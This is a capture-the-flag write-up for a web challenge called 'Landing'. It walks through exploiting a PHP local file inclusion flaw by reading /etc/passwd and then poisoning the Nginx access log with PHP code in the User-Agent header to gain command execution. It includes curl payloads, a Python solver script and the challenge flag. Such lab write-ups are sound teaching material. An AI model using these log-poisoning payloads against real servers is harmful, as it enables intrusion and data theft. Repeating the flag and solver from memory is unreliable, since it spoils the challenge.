




# [__Landing__](#)

### Description:

* The home page for the Impossible Mission Force Agency was created by a newly-hired intern. Can you check it out and make sure it's secure?

### Objective:

* Exploit a Local File Inclusion vulnerability in the URL field and make use of the Nginx logs to inject PHP code into `access.log` and acquire the flag.

### Difficulty:

* `Easy`

### Flag:

* `HTB{m1ss10n_4c0mpl1sh3d}`

### Challenge:



Upon accessing the webpage we notice that we are redirected to `/?page=home.php`.
From [index.php](challenge/index.php) we see that `include($_GET['page'])` is used to dynamically load the web pages.
```php
<?php
if ($_GET['page']) {
    include($_GET['page']);
} else {
    header("Location: /?page=home.php");
}
```
This code is potentially vulnerable to a Local File Inclusion. To test whether this is true, alter the `page` parameter to `/?page=/etc/passwd`.



The `passwd` file is successfully loaded and the vulnerability is verified. 

From the [Dockerfile](challenge/Dockerfile) and [entrypoint.sh](challenge/entrypoint.sh) we see that the flag is copied to the root directory and a random character sequence is appended to its name.
```bash
COPY flag /flag
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /flag /flag$FLAG
```

In order to get the flag let's test if we have permissions to read the `Nginx` access logs by navigating to `/?page=/var/log/nginx/access.log`.



The log file is successfully retrieved. We can exploit the LFI vulnerability by altering the `User-agent` HTTP header and injecting PHP code. Upon loading the access log again the code will be executed, giving us Remote Code Execution on the system. To this end `cURL` can be used.

```bash
curl -v localhost:1337 -H "User-Agent: <?php phpinfo() ?>"
```


The `phpinfo()` function is successfully executed and the PHP information is visible on the page.  Send the following requests to retrieve the flag.
```bash
curl -v localhost:1337 -H "User-agent: <?php system('cat /flag*')"
curl localhost:1337/?page=/var/log/nginx/access.log | grep HTB{ 
```
The flag is returned in the command output.
```
172.17.0.1 - 302 "GET / HTTP/1.1" "-" "HTB{m1ss10n_4c0mpl1sh3d}"
```

### Solver:

```python
import requests, re

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.get(HOST, params={"page": "/var/log/nginx/access.log"}, headers={"User-agent": "<?php system('cat /flag*'); ?>"})
r = requests.get(HOST, params={"page": "/var/log/nginx/access.log"})

flag = re.search("HTB{(.*)}", r.text)
print(flag.group(0))
```
